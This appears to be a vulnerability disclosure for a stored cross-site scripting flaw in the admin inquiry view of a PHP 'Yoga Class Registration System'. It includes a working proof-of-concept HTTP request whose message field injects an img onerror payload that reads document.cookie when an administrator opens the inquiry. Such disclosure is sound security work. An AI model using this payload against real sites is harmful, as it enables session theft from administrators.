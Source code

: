 ## Yoga Class Registration System has xss vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html

## Vulnerability file
/php-ycrs/admin/inquiries/view_inquiry.php

## Vulnerability analysis

<img width="1299" alt="image" src="https://github.com/user-attachments/assets/04f7a45b-c9e2-4d3b-8827-b99dbaf8cc3c">

## describe
There is a vulnerability in the yoga registration system that allows unrestricted xss. An attacker can exploit this vulnerability to obtain cookies on the target system without authorization.

POC
```
GET /php-ycrs/?id=&fullname=123&contact=12321&email=213123%40qq.com&subject=3123&message=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/php-ycrs/?p=contact
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

The front desk submits, and the backend administrator logs in and triggers xss without any sense.
<img width="1357" alt="image" src="https://github.com/user-attachments/assets/e6e686d9-5793-4ef3-b509-ad7edb0fc677">

<img width="1709" alt="image" src="https://github.com/user-attachments/assets/f7bea2d7-d351-414f-b097-afc65c20b77b">

<img width="1547" alt="image" src="https://github.com/user-attachments/assets/605fc9e7-3575-4d59-b861-a409b378f6a2">












